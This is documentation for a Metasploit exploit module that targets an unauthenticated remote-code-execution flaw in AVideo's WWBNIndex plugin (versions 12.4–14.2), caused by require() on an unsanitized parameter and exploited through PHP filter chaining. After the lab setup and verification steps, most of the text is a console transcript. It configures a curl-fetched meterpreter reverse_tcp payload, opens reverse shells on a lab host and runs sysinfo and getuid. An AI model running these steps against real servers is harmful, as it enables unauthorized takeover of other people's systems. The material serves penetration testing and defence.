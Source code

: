 ## Vulnerable Application

This Metasploit module exploits an unauthenticated Remote Code Execution vulnerability in the AVideo platform,
specifically within the WWBNIndex plugin.
The vulnerability exists due to improper input validation in the `submitIndex.php` file, where the `systemRootPath` parameter
is directly passed to a `require()` PHP function without proper sanitization.
Attackers can exploit this by leveraging the PHP filter chaining technique
to execute arbitrary PHP code on the server.
The vulnerability is present in versions from 12.4 up to 14.2.

To set up a vulnerable environment for testing, follow the installation steps provided in the AVideo documentation for running with Docker:
<https://github.com/WWBN/AVideo/wiki/Running-AVideo-with-Docker>.
Ensure AVideo version installed is between 12.4 and 14.2 and the WWBIndex plugin is installed.
This can be done by verifying `/var/www/html/AVideo/plugin/WWBNIndex` exists.

## Verification Steps

1. Start `msfconsole` in your Metasploit framework.
2. Use the module: `use exploit/multi/http/avideo_wwbnindex_unauth_rce`.
3. Set `RHOSTS` to the target's address where the AVideo platform is installed.
4. Set `TARGETURI` to the base path of the AVideo installation if it is not at the root directory (default is `/`).
5. Optionally, configure other options such as `SSL` and `RPORT` if the target environment requires it.
6. Execute the exploit using the `run` or `exploit` command.
7. If the target is vulnerable, the module will execute the specified payload, granting access according to the payload's capabilities.

## Options

No options

## Scenarios

### Successful Exploitation against AVideo Platform with WWBNIndex plugin version 12.9

**Setup**:

- Target: AVideo platform with WWBNIndex plugin version 12.9 installed in a Docker container.
- Attacker: Metasploit Framework.

**Example**:

```
msf > search avideo

Matching Modules
================

   #  Name                                            Disclosure Date  Rank       Check  Description
   -  ----                                            ---------------  ----       -----  -----------
   0  exploit/multi/http/avideo_wwbnindex_unauth_rce  2024-04-04       excellent  Yes    AVideo WWBNIndex Plugin Unauthenticated RCE
   1    \_ target: Automatic                          .                .          .      .
   2    \_ target: PHP In-Memory                      .                .          .      .
   3    \_ target: Unix In-Memory                     .                .          .      .
   4    \_ target: Windows In-Memory                  .                .          .      .


Interact with a module by name or index. For example info 4, use 4 or use exploit/multi/http/avideo_wwbnindex_unauth_rce
After interacting with a module you can manually set a TARGET with set TARGET 'Windows In-Memory'

msf > use 3
[*] Additionally setting TARGET => Unix In-Memory
[*] Using configured payload cmd/linux/http/x64/meterpreter/reverse_tcp
msf exploit(multi/http/avideo_wwbnindex_unauth_rce) > options

Module options (exploit/multi/http/avideo_wwbnindex_unauth_rce):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    443              yes       The target port (TCP)
   SSL      true             no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      nhjkrZakk        no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  /tmp             yes       Remote writable dir to store payload; cannot contain spaces
   LHOST                                yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   2   Unix In-Memory



View the full module info with the info, or info -d command.

msf exploit(multi/http/avideo_wwbnindex_unauth_rce) > set rhosts 192.168.100.20
rhosts => 192.168.100.20
msf exploit(multi/http/avideo_wwbnindex_unauth_rce) > set lhost eth0
lhost => 192.168.100.10
msf exploit(multi/http/avideo_wwbnindex_unauth_rce) > set lport 1337
lport => 1337
msf exploit(multi/http/avideo_wwbnindex_unauth_rce) > set fetch_srvport 5000
fetch_srvport => 5000
msf exploit(multi/http/avideo_wwbnindex_unauth_rce) > exploit

[*] Started reverse TCP handler on 192.168.100.10:1337
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Detected vulnerable AVideo version: 12.9
[*] Sending stage (3045380 bytes) to 192.168.100.20
[*] Meterpreter session 1 opened (192.168.100.10:1337 -> 192.168.100.20:52936) at 2024-04-04 23:08:05 +0200

meterpreter > sysinfo
Computer     : 192.168.100.20
OS           : Ubuntu 20.04 (Linux 5.4.0-169-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > exit
[*] Shutting down session: 1

[*] 192.168.100.20 - Meterpreter session 1 closed.  Reason: Died
msf exploit(multi/http/avideo_wwbnindex_unauth_rce) > use 2
[*] Additionally setting TARGET => PHP In-Memory
[*] Using configured payload php/meterpreter/reverse_tcp
msf exploit(multi/http/avideo_wwbnindex_unauth_rce) > exploit

[*] Started reverse TCP handler on 192.168.100.10:1337
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Detected vulnerable AVideo version: 12.9
[*] Sending stage (39927 bytes) to 192.168.100.20
[*] Meterpreter session 2 opened (192.168.100.10:1337 -> 192.168.100.20:36258) at 2024-04-04 23:08:44 +0200

meterpreter > getuid
Server username: www-data
```
